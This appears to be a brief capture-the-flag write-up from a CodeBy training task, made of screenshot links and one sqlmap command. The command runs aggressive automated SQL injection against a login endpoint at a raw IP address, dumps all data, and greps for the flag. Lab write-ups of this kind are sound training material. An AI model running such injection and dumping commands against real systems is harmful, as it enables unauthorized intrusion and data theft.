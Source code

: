 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/518b7565-a346-4a5e-b2b8-e5ec4a92e775)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d4deec09-1a07-4b4d-8fdb-cd0e704e9972)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1f56d76f-fe9b-45c6-9899-4ef6fa00fbfa)

sqlmap -u "http://62.173.140.174:16015/user.php?login=test&password=test" --batch --level=2 --risk=3 --random-agent -v --tamper=space2comment --all | grep CODEBY

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c49479ce-3429-4bd3-aaa8-06a4f192974c)
